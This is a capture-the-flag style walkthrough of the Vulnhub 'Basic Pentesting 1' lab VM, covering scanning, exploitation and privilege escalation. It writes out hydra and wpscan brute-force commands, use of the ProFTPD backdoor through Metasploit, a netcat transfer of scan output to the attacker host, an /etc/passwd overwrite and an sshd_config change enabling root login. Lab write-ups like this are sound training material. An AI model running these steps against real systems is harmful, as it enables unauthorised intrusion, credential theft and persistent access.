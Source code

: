 *2021-08-22*

*kimm3*

# Walkthrough: Basic Pentesting 1
Platform: Vulnhub

Difficulty: (Very) Easy

- [Vulnhub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)
## Setup
I use my kali machine as dhcp-server on a virtual box internal network, where I connect the target machine.

![dhcplease](assets/markdown-img-paste-20210822101957254.png)
## Scans and enumeration
```
export IP=192.168.10.2
sudo nmap $IP -p- -Pn -A -oA nmap/init-scan
```

![init-scan](assets/markdown-img-paste-20210822102150590.png)

1. It's a linux machine, Ubuntu
2. Three services to enumerate: fpt, ssh and http.

### HTTP
Index-page

![index](assets/markdown-img-paste-20210822102423845.png)

`ffuf -u "http://192.168.10.2/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -o fuzz/indexdir -of md`

![ffuff-indexdir](assets/markdown-img-paste-20210822102627138.png)

![secret](assets/markdown-img-paste-20210822102926697.png)

Appears to be a wordpress site. Any links points to hostname 'vtcsec'. Add to `/etc/hosts` to make it surfable.

![wp-login-admin](assets/markdown-img-paste-20210822103128901.png)

It works and we gain access to the wp-login site, the user admin exists, but we don't have the password.

Before trying to brute-force it, I went on to check out the [ftp service.](#ftp)

### FTP
![init-ftp](assets/markdown-img-paste-20210822103407270.png)

Anonymous login not possible.

![proftpd-searchsploit](assets/markdown-img-paste-20210822103605509.png)

The version used is vurnelable to backdoor command execution and there's a metasploit module for it, [more info](https://www.exploit-db.com/exploits/15662).

### SSH
It's possible to enumerate usernames for the ssh service [with this.](https://www.exploit-db.com/exploits/40136)


## Exploits
I found three ways to get root:
1. FTP backdoor
2. wp-login console and manipulating `/etc/passwd`
3. Or via wp-login and user marlinspike, weak password

## Exploit 1
The FTP backdoor looks most promising, lets start there.

![msf-root](assets/markdown-img-paste-20210822105223322.png)

Well thats easy.

## Exploit 2
**step 1**

Brute-forcing wp-login.php.

First of, the password is the default install password, so we really don't need to brute force it. If we do, the choice of wordlist makes a big difference in time. The 'rockyou.txt' works, but the password is at 19k line something. Metasploit has a 'http_default_pass.txt', search for it in your `/usr/share` folder.

### Using hydra
Take the http-post-form payload from your browser to not mess things up.

```hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt vtcsec http-post-form "/secret/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fvtcsec%2Fsecret%2Fwp-admin%2F&testcookie=1:F=<title>Log In"```

![hydra-wplogin](assets/markdown-img-paste-20210822123444436.png)
### Using wpscan
The safe option, considering you don't have to write out the payload.

```wpscan --password-attack wp-login -U admin --url http://vtcsec/secret/ -P /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt ```

![wpscan-wplogin](assets/markdown-img-paste-20210822123523335.png)

**step 2**

Using metasploit to gain meterpreter.

![msf-wpadmin](assets/markdown-img-paste-2021082212410613.png)


**step 3.1**

Privilege escalation via `/etc/passwd`

![uploadprivesc](assets/markdown-img-paste-20210822124607519.png)

Run a privesc check, send the result to your machine for easier reading.
```
chmod u+x unix-privesc-check
./unix-privesc-check standard > output.txt

(nc -l -p 1234 > output.txt) # on receiver

nc -w 3 192.168.10.1 1234 < output.txt
```

Going through the file, look for 'WARNING:'.

![etc/passwd](assets/markdown-img-paste-20210822125417979.png)

/etc/passwd seems to be writeable by everyone. If a present is present in `/etc/passwd` it will take precedence over `/etc/shadow`.

Generate a new hash for root with `openssl passwd -1 "adminpassword"`.

Send the file over and use `su`.

![root](assets/markdown-img-paste-20210822132906383.png)

**step 3.2**

Privilege escalation via user marlinspike.

We can see in the home folder or the `/etc/passwd` that there's a user called marlinspike.

Let's generate some passwords and try to log in via SSH.

![cuppy](assets/markdown-img-paste-20210822134938266.png)

If we don't have access to the password hash, we can try to brute-force one of the services to find the password.

`hydra -l marlinspike -P marlin.txt ftp://vtcsec`

![ftp-success](assets/markdown-img-paste-20210822135541951.png)

![ftp-dir](assets/markdown-img-paste-20210822135654832.png)

The share is in the users home folder.

`hydra -l marlinspike -P marlin.txt ssh://vtcsec -t 4`

![ssh-success](assets/markdown-img-paste-2021082213572908.png)

![ssh-to-root](assets/markdown-img-paste-20210822135851675.png)

The user has full sudo privs.

## Post Exploitation
The sshd_config does not permit ssh login for root with password. Change the 'prohibit-password' to 'yes' and our new password will work.

![sshd-config](assets/markdown-img-paste-20210822133950300.png)

![ssh-login-root](assets/markdown-img-paste-20210822134009219.png)
